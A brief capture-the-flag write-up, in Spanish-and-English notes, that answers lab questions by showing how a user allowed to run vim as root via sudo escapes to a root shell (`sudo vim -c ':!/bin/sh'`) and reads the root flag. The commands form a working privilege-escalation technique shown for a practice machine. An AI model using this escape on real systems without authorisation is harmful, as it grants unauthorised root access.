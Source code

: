 
### What can you leverage to spawn a privileged shell?

vim
#### Migramos a otro a root, escapando de vim

```
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim



```
#### Ejecutamos vim como sudo y escapamos al shell'
- la info sale de gftobins

```
>> escapar del vim

sudo vim
:!/bin/bash
exit
<Enter>
:q

o

sudo vim -c ':!/bin/sh'
<Enter>
exit
:q


exit


```

### What's the root flag?
#### Obtenemos la banera de root

```
root@Machine:/home# cd /root
root@Machine:/root# ls
root.txt
root@Machine:/root# cat root.txt

W3ll d0n3. You made it!


```
